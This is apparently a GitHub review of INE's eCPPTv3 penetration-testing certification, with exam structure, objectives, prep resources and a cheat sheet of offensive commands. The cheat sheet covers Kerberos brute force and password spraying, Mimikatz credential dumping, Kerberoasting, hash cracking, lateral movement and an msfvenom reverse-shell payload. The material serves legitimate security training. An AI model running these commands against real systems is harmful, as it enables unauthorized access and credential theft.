

# Certified Professional Penetration Tester (eCPPTv3) - INE 

The **Certified Professional Penetration Tester (eCPPTv3)** by INE is a practical certification designed for professionals specializing in penetration testing and ethical hacking. This certification is ideal for those looking to deepen their skills in identifying and mitigating security vulnerabilities. 

The certification is priced at **400$** and includes a practical exam lasting **24 hours**, during which you are required to complete penetration testing activities and answer 45 questions based on your findings.

This review includes personal notes and an example of the methodologies applied during the exam.


**Personal Notes on the Course Content**
In this section, I’ve included some of my notes to help guide others studying for the eCPPTv3 certification. 
These notes summarize key takeaways from each module, covering essential techniques, tools, and strategies for threat hunting within networks and endpoints.
- **eCPPT Notes** → [eCPPT Notes](https://robertodandrea.notion.site/eCPPT-Certification-a979ec3064e34ed6bb9690efd8ffd176?pvs=74)


### **Exam Structure:**

The exam is divided into two main components:

1. **Lab Environment**:
    - You will be provided with a virtual environment containing various systems, including Linux and Windows hosts, such as Windows servers acting as Domain Controllers.
    - Your objective is to identify and exploit vulnerabilities within this environment to gain unauthorized access.
2. **Lab Questions**:
    - After compromising the environment, you will answer 45 questions related to your activities and findings during the penetration test.

The exam is to be completed within **24 hours**, and you are required to submit your answers to the questions within this timeframe. Unlike previous versions, there is no requirement to submit a detailed report of your activities and findings.

### **Exam Objectives:**

1. **Information Gathering & Reconnaissance (10%)**:
    - Perform host discovery and port scanning on target networks.
    - Enumerate information from services running on open ports.
2. **Initial Access (15%)**:
    - Perform username enumeration to identify valid user accounts on target systems.
    - Perform password spraying attacks to identify valid credentials for initial access.
    - Perform brute-force attacks on remote access services for initial access.
3. **Web Application Penetration Testing (15%)**:
    - Perform web application enumeration to identify potential vulnerabilities and misconfigurations.
    - Identify and exploit common web application vulnerabilities for initial access (e.g., SQL injection, cross-site scripting, command injection).
    - Perform brute-force attacks against login forms.
    - Exploit vulnerable and outdated web application components.
    - Exfiltrate data and credentials from compromised web applications and databases.
4. **Exploitation & Post-Exploitation (25%)**:
    - Identify and exploit vulnerabilities or misconfigurations in services.
    - Identify and exploit privilege escalation vulnerabilities.
    - Dump and crack password hashes.
    - Identify insecurely stored credentials.
5. **Exploit Development (5%)**:
    - Develop or modify exploit code for initial access and post-exploitation.
    - Identify and exploit memory corruption vulnerabilities (e.g., stack overflow, buffer overflow).
6. **Active Directory Penetration Testing (30%)**:
    - Perform information gathering on Active Directory.
    - Perform enumeration attacks on Active Directory.
    - Exploit Active Directory vulnerabilities.
    - Perform privilege escalation attacks in Active Directory.
    - Perform lateral movement attacks in Active Directory.
    - Perform persistence attacks in Active Directory.
    - Perform data exfiltration attacks in Active Directory.

### Personal Tips for Success

This certification, in my experience, presents a medium-to-high difficulty level, especially if you are not familiar with Active Directory (AD). The exam focuses significantly on AD exploitation techniques, making it essential to have a solid understanding of AD environments.

To enhance your preparation, engaging with platforms like [**GOAD](https://github.com/Orange-Cyberdefense/GOAD) (Game of Active Directory)** can be highly beneficial. GOAD provides a vulnerable AD environment, ideal for practicing common attack techniques. Detailed documentation and guides on tackling GOAD challenges are available on Mayfly277's website.

Additionally, platforms such as **Hack The Box** offer practical labs that can be extremely useful. Specifically, the machines **SAUNA**, **ACTIVE**, and **TIMELAPSE** are designed to practice AD exploitation techniques. These labs allow you to refine your skills in a controlled and challenging environment.

Another valuable resource is the mind map provided by Orange Cyberdefense, which offers a clear overview of AD penetration testing techniques. 
This mind map will help you visualize the various phases and tools necessary to approach the exam successfully.

https://orange-cyberdefense.github.io/ocd-mindmaps/


## Table of useful command

| **`kerbrute`** | Enumerate
brute force/password spray | `Enumeration`: *kerbrute userenum -d example.local --dc 192.168.1.10 users.txt*

`BruteForce`: *kerbrute bruteuser -d example.local --dc 192.168.1.10 administrator passwords.txt*

*users.txt* file with user list |
| --- | --- | --- |
| **`crackmapexec`**
[https://www.youtube.com/watch?v=uLNpR3AnE-Y&list=PLbK3lpDL_g6ChnJ9E8LB30dezPfuzgaBI&index=2](https://www.youtube.com/watch?v=uLNpR3AnE-Y&list=PLbK3lpDL_g6ChnJ9E8LB30dezPfuzgaBI&index=2) | Enum hosts
Enum null sess Enum anony access

 | `Get password Policy`: *cme <IP> -u ‘user’ -p ‘password” --pass-pol*
**DO IT BEFORE… THEN TUNE THE Pwd SPARY with policy obtained**

`Username but NO pwd:` *cme smb <dc_ip> -u user.txt - password.txt --no-bruteforce*

`Valid Credential:` 
**Users**: *cme smb <IP> -u <user> -p ‘<password_from_before>’ --users*
**Account**: *cme smb <IP> -u <user> -p ‘<password_from_before>’ --shares*

`Enumeration`: *crackmapexec smb <IP>*
`Enumeration`: *crackmapexec smb <IP> -u “ p”* `Enumeration`: *crackmapexec smb <IP> -u ‘a’ -p”*

`Lateral Movement`: *crackmapexec smb <IP> -u <user> -p <password> -d <domain>* |
| **`evil-winrm`** | Access to target machine | `Lateral Movement`: *evil-winrm -i 192.168.1.100 -u Administrator -p 'Password123'* |
| **`xfreerdp`** | Access to target machine | `Lateral Movement`: *xfreerdp /v:192.168.1.100 /u:Administrator /p:'Password123'* |
| **`smbclient`**
 | accedere a risorse SMB/CIFS | `Lateral Movement`: [smbclient.py](http://smbclient.py) <domain>/<user>:<Password123>@<IP>

*smbclient -L //<dc_ip>/* |
| **`Enter-PSSession`** | Start interactive session | *Enter-PSSession <domain>
Enter-PSSession seclogs.resesarch.security.local* |
| **`net`** | Useful for policy settings | *net accounts
net user administrator* |
| **`runas`** | Access to victim | *runas.exe /user:administrator cmd*
[runas.exe /user:administrator cmd](https://www.notion.so/runas-exe-user-administrator-cmd-1196583d22bc80a1a689d2576e37705d?pvs=21)  |
| **`PowerView`** | Enumeration AD - Powersploit suite | `AS-REP Roasting primary step`: *Get-DomainUser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }*
**[**Command:**](https://www.notion.so/Command-10c6583d22bc8002a34fe43b85bac6d6?pvs=21)** 

`AD-Kerberoasting`: *Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
setspn -T research -Q */**
**[**Command:**](https://www.notion.so/Command-10c6583d22bc80c694fdc162e0fccd8f?pvs=21)**  |
| **`winpeas`** | Identify misconfigurations, permissions, and vulnerabilities that could be exploited to gain elevated privileges | `Privilefge esclation:` *winpeas.exe* |
| **`msfvenom`** | Used to generate a reverse_tcp payload | *msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.5.101 LPORT=4444 -f exe > rTCP.exe
[**Command:**](https://www.notion.so/Command-f9a04aef68a348318f1741f6ac6dce2f?pvs=21)*  |
| **`msfconsole`** | Metasploit module | *msfconsole -q*
Meterpreter session: *exploit/windows/misc/hta_server* |
| **`Mimikatz`** | https://www.hackingarticles.in/metasploit-for-pentester-mimikatz/ | **`hashdump`: *hashdump**
Return NTLM Hash of the user*
**`creds_all`: *creds:all**
Extract all possible hashes or credentials form Security Packages*
**`lsa_dump_secrets`:** ***lsa_dump_secrets**
Extract credential stored into Local Security Authority*
**`lsa_dump_sam`: *lsa_dump_sam**
Extract Security Account Manager and dumps credentials for local accounts* |
| **`psexec`** | Execute command on target machine | *psexec \\\\<target_ip> <cmd_command>*
OR
use for PTH |
| **`wmiexec`** | Used to run command on target machine | *python [wmiexec.py](http://wmiexec.py/) username:password@target_ip "whoami"*
 |
| **`fping`** | Ping ICMP machine to get alive | *fping -a -g 192.168.1.0/24* |
| **`GetNPUsers`** | Used to find hash | *python [GetNPUsers.py](http://GetNPUsers.py) <domain>/ -userfile <username.txt> -format hashcat -outputfile <hash_out.txt>

rebeus.exe asreproast /format:hashcat* |
| **`hashcat`** | Used to crack hash | *hashcat -m <algorithm> -a <type_of_attack> hash.txt*  |
| **`hydra`** | Brute force  | *hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.0.0.89 smb2*
 |
| **`wpscan`** | Wordpress vuln | [## detect plugins vulnerable
wpscan --url https://kihvhc2nhb0uocklpg88obt.eu-central-1.attackdefensecloudlabs.com/ --enumerate p --plugins-detection aggressive](https://www.notion.so/detect-plugins-vulnerable-wpscan-url-https-kihvhc2nhb0uocklpg88obt-eu-central-1-attackdefenseclo-df7a015647dc4ee3a18cbb6ec2a6fcf3?pvs=21)  |
| **`nmap`** | port scanning | *nmap -sC -sV -Pn -p- -oA output.txt <IP_addr> -vv* |

### Conclusion

The **eCPPTv3 certification** offers cybersecurity professionals a valuable opportunity to deepen their expertise in penetration testing, particularly focusing on Active Directory environments. By engaging with hands-on labs and utilizing resources like **GOAD** and **Hack The Box**, candidates can develop practical skills essential for real-world security assessments. The exam's emphasis on Active Directory exploitation reflects current security needs, highlighting the importance of mastering techniques to identify and mitigate risks associated with identity and access management within organizations.

Incorporating these resources into your preparation can enhance your understanding and proficiency in penetration testing, thereby increasing your chances of success in the eCPPTv3 exam.